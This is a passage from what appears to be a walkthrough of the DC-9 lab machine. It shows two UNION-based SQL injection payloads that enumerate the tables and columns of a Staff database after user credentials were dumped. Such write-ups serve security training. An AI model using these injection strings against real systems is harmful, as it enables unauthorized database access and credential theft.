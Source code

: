 We obtain a list of users and passwords but they are not valid in the web login so we go on to list the Staff database in the same way that we have done with users.

```sql
Mary' union select null,table_name,null,null,null,null from information_schema.tables where table_schema='Staff'-- -
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%206.png)

```sql
Mary' union select null,column_name,null,null,null,null from information_schema.columns where table_name='Users'-- -

```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%207.png)
